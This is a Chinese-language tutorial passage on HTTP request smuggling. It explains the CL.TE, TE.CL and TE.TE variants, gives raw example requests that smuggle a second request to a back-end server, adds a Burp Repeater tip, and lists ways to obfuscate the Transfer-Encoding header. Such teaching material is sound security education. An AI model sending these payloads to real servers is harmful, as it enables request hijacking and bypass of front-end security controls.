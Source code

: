 ### CL.TE漏洞

前端服务器使用 Content-Length 标头，后端服务器使用 Transfer-Encoding 标头。我们可以执行一个简单的 HTTP 请求走私攻击，如下所示：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

前端服务器处理 Content-Length 标头并确定请求正文为 13 个字节长，直到 SMUGGLED 结束。该请求被转发到后端服务器。
后端服务器处理 Transfer-Encoding 标头，因此将消息正文视为使用分块编码。它处理第一个块，它被声明为零长度，因此被视为终止请求。接下来的字节 SMUGGLED 未处理，后端服务器会将它们视为序列中下一个请求的开始。

### TE.CL漏洞

这里，前端服务器使用 Transfer-Encoding 标头，后端服务器使用 Content-Length 标头。我们可以执行一个简单的 HTTP 请求走私攻击，如下所示：

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

>要使用 Burp Repeater 发送此请求，首先需要进入 Repeater 菜单并确保未选中“Update Content-Length”选项。
并且需要需要在最后一个 0 之后包含尾随序列 \r\n\r\n。

前端服务器处理 Transfer-Encoding 标头，因此将消息正文视为使用分块编码。它处理第一个块，它被声明为 8 个字节长，直到 SMUGGLED 之后的行的开头。它处理被声明为零长度的第二个块，因此被视为终止请求。该请求被转发到后端服务器。
后端服务器处理 Content-Length 头，确定请求体长度为 3 个字节。后面以 SMUGGLED 开头的字节不处理，后端服务器会将这些视为序列中下一个请求的开始。

### TE.TE漏洞

前端和后端服务器都支持 Transfer-Encoding 标头，但可以通过以某种方式混淆标头来诱导其中一台服务器不处理它。
有无数种方法可以混淆 Transfer-Encoding 标头。例如：

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
